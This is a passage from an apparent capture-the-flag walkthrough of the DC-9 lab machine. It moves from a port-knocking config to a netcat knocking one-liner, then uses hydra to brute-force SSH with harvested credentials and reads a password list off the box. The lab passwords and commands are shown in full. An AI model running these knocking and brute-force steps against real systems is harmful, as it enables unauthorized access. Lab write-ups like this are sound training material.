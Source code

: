 ``` bash
        sequence    = 9842,8475,7469
        seq_timeout = 25
        command     = /sbin/iptables -D INPUT -s %IP% -p tcp --dport 22 -j ACCEPT
        tcpflags    = syn

```

In the output we see a sequence of ports that we have to connect to open port 22 and the same way there's a secuence of ports to close it. I developed a bash oneliner that tries to connect to the ports **7469 8475 9842**, and we can verify that the SSH service is enabled.

``` bash
root@kali:~$ for port in 7469 8475 9842; do nc 192.168.179.128 $port; done
(UNKNOWN) [192.168.179.128] 7469 (?) : Connection refused
(UNKNOWN) [192.168.179.128] 8475 (?) : Connection refused
(UNKNOWN) [192.168.179.128] 9842 (?) : Connection refused
root@kali:~$  nc 192.168.179.128 22
SSH-2.0-OpenSSH_7.9p1 Debian-10+deb10u1
```

### Access via SSH
Then we try to verify if the credentials found allow us to have access via SSH, for this I used hydra.

``` bash
root@kali:~$ hydra -C UserDetails ssh://192.168.179.128 
...
[DATA] attacking ssh://192.168.179.128:22/
[22][ssh] host: 192.168.179.128   login: chandlerb   password: UrAG0D!
[22][ssh] host: 192.168.179.128   login: joeyt       password: Passw0rd
[22][ssh] host: 192.168.179.128   login: janitor     password: Ilovepeepee
1 of 1 target successfully completed, 3 valid passwords found
```

Three valid credentials were found, of which accessing as the user **janitor** I found the directory **.secrets-for-putin** with a file containing a list of passwords.

``` bash
root@kali:~$ ssh -l janitor 192.168.179.128
janitor@192.168.179.128's password: 
janitor@dc-9:~/.secrets-for-putin$ cat passwords-found-on-post-it-notes.txt
BamBam01
Passw0rd
smellycats
P0Lic#10-4
B4-Tru3-001
4uGU5T-NiGHts
```

This passwords are stored in the file **ssh_passwords** on the attacking machine, and we filter the usernames of the **UserDetails** file to store them in another file named **ssh_users**.

``` bash
root@kali:~$ cat ssh_passwords
BamBam01 
Passw0rd 
smellycats
P0Lic#10-4
B4-Tru3-001
4uGU5T-NiGHts
root@kali:~$ cut -d ":" -f 1 UserDetails > ssh_users
root@kali:~$ cat ssh_users
marym
julied
fredf
barneyr
tomc
```